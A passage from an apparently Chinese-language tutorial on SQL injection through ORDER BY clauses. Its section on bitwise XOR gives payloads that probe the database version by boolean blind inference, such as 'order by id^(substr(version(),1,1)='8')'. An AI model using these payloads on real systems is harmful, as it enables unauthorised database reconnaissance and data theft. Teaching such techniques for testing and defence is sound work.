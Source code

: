 #### 3）位运算符

位运算符，主要使用^异或运算，其他也可

```sql
order by id^0;
order by id^1;
```



```sql
select * from users order by id^(substr(version(),1,1)=&#39;8&#39;);select * from users order by id^(substr(version(),1,1)=&#39;6&#39;);
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165803446.png)
